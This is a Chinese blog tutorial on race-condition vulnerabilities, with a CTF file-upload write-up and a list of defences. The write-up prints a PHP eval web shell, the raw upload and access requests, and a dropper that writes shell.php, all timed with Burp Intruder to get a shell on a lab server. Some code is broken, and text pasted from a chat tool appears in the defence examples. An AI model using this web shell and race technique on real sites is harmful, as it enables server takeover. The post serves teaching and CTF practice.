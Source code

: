 ```yaml
---
title: 条件竞争漏洞学习
date: 2025-02-08 17:02:24
tags: Web安全
categories: Web安全
toc: true
style: |
  .post-content {
    font-family: "楷体", "STKaiti", serif;
    font-size: 18px;
  }
index_img: /images/bg4.png
# banner_img: /images/bg4.png
---
```


## Web安全条件竞争漏洞学习

#### 0x00 概述

​		条件竞争漏洞发生在多个线程同时访问同一个共享代码、变量、文件等，，由于多个不同线程同时与相同的数据进行交互，从而导致碰撞冲突（例如，后端多个线程同时修改数据库中的某一个字段值）。攻击者通过精心定制请求到达后端的时间故意制造冲突，并由此实现恶意目的。这个漏洞存在于操作系统、数据库、web等多个层面，由于大多服务端框架在处理不同用户的请求时是并发进行的，而开发者在进行代码开发时常常倾向于认为代码会以线性的方式执行，而忽视了并行服务器会并发执行多个线程，这就会导致意想不到的结果。

###### 简单来说，就是多线程同时操作一个对象，而没有对对象进行加锁等保证一致性的操作

#### 0x01 简单分析

我们来设计一个简答的业务逻辑：商城系统中，用户提交折扣码，后端会检测用户是否已经使用过折扣码。若未使用过，则使用该折扣码，并记录折扣码使用状态为True。若已使用折扣码，用户再次使用折扣码时，后端程序读取折扣码使用状态为True，拒绝用户再次使用折扣码。

![Lesson-eb3846115f6b8](https://pic2.zhimg.com/80/v2-ffffaa1fb957682cebb626a0482344b3_720w.webp)

我们在这里用一段简单的python代码来模拟后端逻辑，处理请求的`handle_req()`函数是并发（多线程/多进程）执行的：

```python
def **handle_req**():
    if code_already_used = False: # 判断如果没有使用过折扣码（实际应该是对数据库的查询，此处简化写法）
        use_code()				  # 使用折扣码，对商品进行打折
        code_already_used = True  # 使用过折扣码后，将折扣码使用状态为True（实际应该是对数据库的数据更新，此处简化写法）
    else:						  # 若已经使用过折扣码
        reject_use_code()      	  # 拒绝再次使用折扣码
```

但是这个过程可能会存在条件竞争漏洞，因为我们第一次请求判断的状态为false即未使用折扣码，但是第一个请求执行到第四行时准备更新数据库内容而第二个请求又开始执行并将折扣码使用状态再一次地标记为false，从而造成了使用了两次折扣码，触发了条件竞争漏洞，如下图所示：后端将记录折扣码使用状态为True之前，可能存在条件竞争，上述第2、3行代码执行的时间就是`竞争窗口`。

![Lesson-eb3846115f6b8](https://pica.zhimg.com/80/v2-b3ccc0bc7165f6bd90fcf6769c591786_720w.webp)

　竞争窗口一般是一段很短的时间段（几毫秒甚至更短），用户通过并行发送多个数据包，使得服务端竞争窗口内执行多次特定的功能。

![Lesson-eb3846115f6b8](https://pic4.zhimg.com/80/v2-936e0bec041297e3b7f8b1f0d9f568d1_720w.webp)

#### 0x02 CTF中的条件竞争

我们来看这样的一道题目

【题型】[Web]()
【题目】`wzsc_文件上传`
【来源】（[攻防世界](https://adworld.xctf.org.cn/challenges/list）
【思路】[条件竞争]()

我们先上传一个一句话木马并把包拦截下来进行分析测试

```bash
POST /upload.php HTTP/1.1
Host: Host:Port
Content-Length: 230
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:56903
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMwWBoiGSKcfAYxLh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: Host:Port
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryMwWBoiGSKcfAYxLh
Content-Disposition: form-data; name="file"; filename="classic.php"
Content-Type: application/octet-stream

<?php @eval($_POST["shell"]); ?>
------WebKitFormBoundaryMwWBoiGSKcfAYxLh--
```

我们把它放到Repeater中放出去看看，查看返回包

```bash
HTTP/1.1 200 OK
Date: Sat, 08 Feb 2025 09:38:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

我们可以看到这里的状态码是200，证明我们是可以成功上传但是在服务器中被删除了，那这时候可以使用以下思路

我们先尝试访问我们上传的一句话并拦截包

```bash
GET /upload/classic.php HTTP/1.1
Host: 61.147.171.105:56903
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

这样，我们可以在`BurpSuite`中同时拦截下这两个数据包，然后发送至Intruder模块，将payload设置为`Null Payload`，并开始攻击，这样我们还需要搭配上这样的一句PHP代码

```php
<?php fputs(fopen("shell.php", "w"), '<?php @eval($_POST["shell"]); ?>'); ?>
```

它的作用是只要我们上传的文件能被成功访问，它就能在服务器上新建一个`shell.php`并将一句话写入，从而使我们能够成功`getshel`l~

用两个不同的数据包设置`Null Payload`的作用是利用我们提到的“竞争窗口”即上传成功到被删除的这一小段时间去访问我们上传的内鬼让其在服务器上生成一个接应我们的shell，其实简单地说就是用两个不同的操作去同时读写一个文件

![4](https://pic2.zhimg.com/80/v2-98252be57cdc6ace37d120354c2b5da1_720w.webp)

Success to upload！

成功拿到flag：`cyberpeace{This_is_a_sample_flag}`

#### 0x03 如何防御？

以下总结了一些防御方法和常见条件竞争漏洞示例及防御

(1) 使用同步机制
    锁（Lock）：通过加锁确保同一时间只有一个线程或进程可以访问共享资源。
    信号量（Semaphore）：限制同时访问资源的线程或进程数量。
    互斥量（Mutex）：类似于锁，用于多线程环境。
(2) 原子操作
    使用原子操作确保操作的不可分割性。
    示例：
        数据库中的事务（Transaction）。
        编程语言中的原子类型（如 atomic 在 C++ 或 Java 中）。
(3) 避免共享资源
    尽量减少共享资源的使用，采用线程本地存储（Thread Local Storage, TLS）或进程隔离。
    示例：
        使用线程本地变量代替全局变量。
(4) 文件操作防御
    使用文件锁（File Lock）确保同一时间只有一个进程可以访问文件。
(5) 数据库操作防御
    使用事务（Transaction）和锁机制（如行锁、表锁）确保数据一致性。
(6) 时间窗口最小化
    减少竞争条件的发生概率，尽量缩短共享资源的访问时间。
    示例：
        在文件操作中，尽快释放文件锁。
(7) 使用不可变对象
    使用不可变对象（Immutable Objects）避免共享资源被修改。
    示例：
        在函数式编程中，尽量使用不可变数据结构。
(8) 输入验证和边界检查
    对用户输入进行严格验证，避免恶意输入触发竞争条件。
    示例：
        检查文件路径、用户权限等。
(9) 代码审查和测试
    通过代码审查发现潜在的竞争条件。
    使用压力测试和并发测试工具（如 JMeter、Locust）模拟高并发场景。

常见条件竞争漏洞示例及防御
(1) TOCTOU（Time-of-Check to Time-of-Use）

```c
漏洞描述：在检查资源状态和使用资源之间存在时间窗口，攻击者可以利用这个时间窗口修改资源状态。

防御方法：

    使用原子操作（如 open() 的 O_EXCL 标志）。

    示例（C 语言）：
    c
    复制

    int fd = open("file.txt", O_WRONLY | O_CREAT | O_EXCL, 0644);
    if (fd == -1) {
        // 文件已存在
    }
```

(2) 文件上传漏洞

```python
漏洞描述：攻击者在上传文件时，利用时间窗口替换文件内容。

防御方法：

    使用临时文件，上传完成后再重命名。

    示例：
    python
    复制

    import os
    import tempfile

    with tempfile.NamedTemporaryFile(delete=False) as tmp_file:
        tmp_file.write(b"file content")
        tmp_path = tmp_file.name

    os.rename(tmp_path, "final_file.txt")
```

(3) 并发修改共享变量

```java
漏洞描述：多个线程同时修改共享变量，导致数据不一致。

防御方法：

    使用锁或原子操作。

    示例（Java）：
    java
    复制

    import java.util.concurrent.atomic.AtomicInteger;

    AtomicInteger sharedResource = new AtomicInteger(0);

    public void updateResource() {
        sharedResource.incrementAndGet();
    }
```

###### 一些素材来源：

[Noah's Blog](https://noa.pages.dev/posts/web_security/race_conditions/)

[DeepSeek](https://chat.deepseek.com/)

